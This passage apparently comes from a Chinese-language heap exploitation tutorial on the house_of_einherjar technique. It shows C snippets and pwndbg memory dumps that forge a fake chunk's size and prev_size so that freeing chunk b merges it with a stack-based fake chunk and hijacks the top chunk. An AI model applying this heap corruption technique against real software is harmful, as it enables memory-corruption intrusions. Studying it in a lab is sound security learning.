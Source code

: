 输出：

```
Our fake prev_size will be 0x603040 - 0x7fffffffdc50 = 0xffff8000006053f0
                           chunk b      fake chunk
```

修改之后：

```
0x603040 {
  prev_size = 18446603336227509232, 
  size = 256, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
pwndbg> p b
$7 = (uint8_t *) 0x603050 ""
pwndbg> x/20xg b-32
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0xffff8000006053f0	0x0000000000000100
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
```

接下来修改 fake chunk 的 size 为 chunk b 的新 prev_size。

``` c++
    //Change the fake chunk's size to reflect b's new prev_size
    fprintf(stderr, "\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;
```

```
pwndbg> p/x fake_chunk 
$8 = {0x100, 0xffff8000006053f0, 0x7fffffffdc50, 0x7fffffffdc50, 0x7fffffffdc50, 0x7fffffffdc50}
```

接下来 free 掉 chunk b。

``` c++
    // free b and it will consolidate with our fake chunk
    fprintf(stderr, "Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);
```

这样 b 会和 fake chunk 结合，此时的 top chunk 被修改为了 fake chunk。由于我们释放了 chunk b，此时 PREV_INUSE 为 0，unlink 会根据 prev_size 寻找上一个 free chunk，并将它与当前 chunk 合并。
